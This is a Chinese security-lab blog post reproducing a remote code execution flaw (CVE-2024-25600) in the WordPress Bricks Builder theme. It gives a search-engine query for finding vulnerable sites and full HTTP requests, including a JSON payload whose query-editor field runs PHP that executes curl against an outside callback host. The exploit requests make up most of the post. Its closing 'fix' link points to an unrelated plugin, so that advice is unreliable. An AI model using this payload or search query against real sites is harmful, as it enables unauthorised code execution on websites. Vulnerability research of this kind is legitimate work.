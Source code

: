 #  【成功复现】WordPress Bricks Builder远程命令执行漏洞(CVE-2024-25600)   
原创 弥天安全实验室  弥天安全实验室   2024-02-23 18:23  
  
网安引领时代，弥天点亮未来     
  
  
  
  
  
   
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
**0x00写在前面**  
  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
0x01漏洞介绍WordPress和WordPress plugin都是WordPress基金会的产品。WordPress是一套使用PHP语言开发的博客平台。Bricks Builder是一款面向WordPress网站建设的可视化编辑器，使用简单、功能强大。它提供了多种布局和预设模板，可以帮助用户快速创建专业、美观的网站。该产品存在远程代码执行漏洞。0x02影响版本Bricks Builder <= 1.9.60x03漏洞复现  
zoomeye语法  
1. ```
web.body="/wp-content/themes/bricks/"
```  
  
  
1.   
1. ![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCRrVGt73xb9LBzPQsMfPt9bLnt4wUEGs3arDPp3xdalJaVWpyESRfr73xOhBDHYXcwicEKFD8xATw/640?wx_fmt=png&from=appmsg "")  
  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCRrVGt73xb9LBzPQsMfPt9K5OvnBKEgmwa69BIAEsrDmOB2PEZXDvDBEFiaVib1ibxVsvxdoHek6icsw/640?wx_fmt=png&from=appmsg "")  
  
  
2.对漏洞进行复现 POC （GET）漏洞复现，获取nonce值GET / HTTP/1.1Host: 127.0.0.1User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:96.0) Gecko/20100101 Firefox/96.0Connection: closeAccept-Encoding: gzip, deflate              执行payloadPOST /wp-json/bricks/v1/render_element HTTP/1.1Host: 127.0.0.1User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:58.0) Gecko/20100101 Firefox/58.0Connection: closeContent-Length: 401Content-Type: application/jsonAccept-Encoding: gzip, deflate{  "postId": "1",  "nonce": "c5b5949**",  "element": {    "name": "container",    "settings": {      "hasLoop": "true",      "query": {        "useQueryEditor": true,        "queryEditor": "ob_start();echo `curl cnc4ej5blq62an78ck6giyhcffmdr5t56.oast.pro`;$output=ob_get_contents();ob_end_clean();throw new Exception($output);",        "objectType": "post"      }    }  }}DNSlog执行成功（漏洞存在）3.nuclei工具测试（漏洞存在）0x04修复建议目前厂商已发布升级补丁以修复漏洞，补丁获取链接：https://wordpress.org/plugins/html5-video-player/https://github.com/Chocapikk/CVE-2024-25600弥天简介学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。口号 网安引领时代，弥天点亮未来 知识分享完了喜欢别忘了关注我们哦~学海浩茫，予以风动，必降弥天之润！   弥  天安全实验室  
  
  
